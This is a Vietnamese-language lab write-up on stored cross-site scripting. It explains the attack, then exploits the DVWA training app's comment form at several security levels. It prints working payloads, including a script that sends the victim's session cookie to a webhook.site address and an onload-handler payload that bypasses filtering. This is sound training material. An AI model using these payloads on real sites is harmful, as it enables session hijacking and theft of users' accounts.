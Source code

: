 # What is stored cross-site scripting (XSS)?

Stored [XSS] (https://owasp.org/www-community/attacks/xss/) là loại Cross Site Scripting nguy hiểm nhất. Các ứng dụng web cho phép người dùng lưu trữ dữ liệu có khả năng bị tấn công theo kiểu này. Chương này minh họa các ví dụ về việc chèn mã độc vào cross site scripting và các tình huống khai thác liên quan.

Stored XSS xảy ra khi một ứng dụng web thu thập dữ liệu đầu vào từ người dùng có thể là độc hại, sau đó lưu trữ dữ liệu đầu vào đó trong kho dữ liệu để sử dụng sau. Dữ liệu đầu vào được lưu trữ không được lọc chính xác. Do đó, dữ liệu độc hại sẽ xuất hiện như một phần của trang web và chạy trong trình duyệt của người dùng theo các đặc quyền của ứng dụng web. Vì lỗ hổng này thường liên quan đến ít nhất hai yêu cầu đối với ứng dụng, nên điều này cũng có thể được gọi là XSS bậc hai.

Lỗ hổng này có thể được sử dụng để thực hiện một số cuộc tấn công dựa trên trình duyệt bao gồm:

- Chiếm đoạt trình duyệt của người dùng khác
- Thu thập thông tin nhạy cảm mà người dùng ứng dụng xem
- Làm hỏng ứng dụng giả
- Quét cổng của máy chủ nội bộ (“nội bộ” liên quan đến người dùng ứng dụng web)
- Phân phối trực tiếp các khai thác dựa trên trình duyệt
- Các hoạt động độc hại khác

Stored XSS không cần liên kết độc hại để khai thác. Khai thác thành công xảy ra khi người dùng truy cập trang có XSS được lưu trữ. Các giai đoạn sau liên quan đến kịch bản tấn công Stored XSS điển hình:

- Kẻ tấn công lưu trữ mã độc vào trang dễ bị tấn công
- Người dùng xác thực trong ứng dụng
- Người dùng truy cập trang dễ bị tấn công
- Mã độc được thực thi bởi trình duyệt của người dùng

Loại tấn công này cũng có thể được khai thác bằng các khuôn khổ khai thác trình duyệt như [BeEF](https://beefproject.com) và [XSS Proxy](http://xss-proxy.sourceforge.net/). Các khuôn khổ này cho phép phát triển khai thác JavaScript phức tạp.

Stored XSS đặc biệt nguy hiểm trong các lĩnh vực ứng dụng mà người dùng có quyền cao có thể truy cập. Khi quản trị viên truy cập trang dễ bị tấn công, cuộc tấn công sẽ tự động được thực hiện bởi trình duyệt của họ. Điều này có thể làm lộ thông tin nhạy cảm như mã thông báo ủy quyền phiên.

# Lab: Khai thác lỗi Stored Cross-site scripting (Stored XSS) trên DVWA

1. Mức độ **Low-level-security**

   ![](./images/11-12-44.png)

   Ở level này ta nhận thấy người dùng có thể nhập data input vào những ô text box và dữ liệu sẽ được database lưu lại để hiển thị lại ra màn  (giống kiểu chức năng **comment**) => dấu hiệu bị refected và data thì bị lưu trữ lại => có thể bị lỗi **Stored Cross-site scripting** 

   ![](./images/11-20-38.png)

   Chúng ta thử kiểm tra bằng 1 đoạn mã nhỏ 
   ```js
   <script>alert(1)</script>
   ```

   ![](./images/11-29-42.png)
   > Từ kết quả, thấy được chức năng *comment* ở level này bị **XSS**

   Tiếp theo chúng ta sẽ thay đoạn mã nhỏ kia bằng 1 script có thể lấy được cookie phiên đăng nhập của người dùng. Thì ở đây, tôi sẽ sử dụng trang web là [Webhook.site](), khi đoạn mã script độc hại bị kích hoạt thì nó sẽ gửi dữ liệu về trang web này. Đoạn mã tôi sử dụng có dạng như sau
   ```js
    <script>
    new Image().src = "https://webhook.site/your-id?c=" + document.cookie;
    </script>
   ```
   Bây giờ tôi chỉ việc truy cập và *Webhook.site* và thay thế đoạn URL có chứa  ID trang web tự cấp khi truy cập  vào đoạn mã bên trên.

   ![](./images/12-26-10.png)
   
   Ta cần để ý rằng nếu đoạn script hơi dài (quá 50 ký tự) thì cần phải vào *inspect* của trình duyệt để tăng số lượng ký tự của text area, ở đây tôi để max ping là 500 luôn  

   ![](./images/12-31-40.png)
    
   Kiểm tra mã nguồn trang web, ta thấy đoạn script đã được đưa lên.

   ![](./images/12-34-37.png)
   
   Qua trang *Webhook.site*, ta lấy được cookie của máy nạn nhân

   ![](./images/12-38-01.png)

2. Mức độ **Medium-level-security**

   Ở mức độ Medium-level security, mục *Message* và *Name* đã được lọc những ký tự có khai gây lỗi XSS bằng hàm `htmlspecialchars`.

   ![](./images/13-35-13.png)

   ![](./images/13-47-20.png)

   Ta sẽ thử dùng 1 đoạn mã khác để khai thác

   ```js
   <body onload="alert(document.cookie)">
   ```
   
   ![](./images/13-57-07.png)
   > Kết quả là ta có thể thấy được cookie sau khi kết thúc reload trang.

3. Mức độ **High-level-security**

   Mức độ này làm tương tự như ở **Medium-level-security** 

   ![](./images/14-26-50.png)